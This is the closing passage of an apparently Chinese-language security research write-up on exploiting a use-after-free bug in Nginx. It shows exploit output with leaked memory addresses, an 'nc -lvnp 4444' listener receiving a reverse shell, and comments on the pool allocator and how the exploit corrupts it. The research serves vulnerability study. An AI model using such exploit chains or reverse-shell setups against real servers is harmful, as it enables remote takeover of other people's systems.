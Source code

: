   
  
```
$ python exploit_chain.py[*] Leaked address = 0x7574e1a1d0a0[*] Page base = 0x7574e1600000[*] Pool address = 0x7574e1a23000[*] LIBC address = 0x7574e2200000[*] Execute: nc -lvnp 4444[*] Paused (press any to continue)
```  
  
  
  
```
Listening on 0.0.0.0 4444Connection received on 127.0.0.1 41906bash: cannot set terminal process group (136506): Inappropriate ioctl for devicebash: no job control in this shellTo run a command as administrator (user"root"), use"sudo <command>".See "man sudo_root"for details.roundofthree@ubuntu:/tmp/cores$
```  
  
  
关于 Nginx UAF 漏洞可利用性的一些评论  
  
首先，大多数对象和缓冲区都是从池分配器（ngx_palloc调用）分配的。因此很难找到从系统分配器分配的所需大小的堆小工具（使用ngx_alloc）。  
  
其次，池分配的对象永远不会被释放回池中。它们在关联的池块被释放时被释放，即池被销毁时。由于对象是池块的切片，因此重叠相同大小块的利用技术不适用于此：分配的粒度是池大小。如果我们想将指向对象的悬空指针与另一个对象重叠，我们需要：1) 将悬空指针的已销毁池块与受害对象的池块重叠，2) 易受攻击的对象和受害对象必须位于相同的池偏移量中。  
  
CPV17 的漏洞利用不是破坏池中分配的对象，而是依赖于破坏池本身ngx_http_request_t来实现 RCE。  
  
致谢  
  
Robert NM Watson 教授，感谢他提供的建议和想法，给了我研究CHERI的机会（虽然这与 CHERI 无关，但它源自一个与 CHERI 相关的项目）。  
  
HackerChai，感谢他多次讨论错误、审阅草稿并帮助我在这个领域取得进步。  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
  
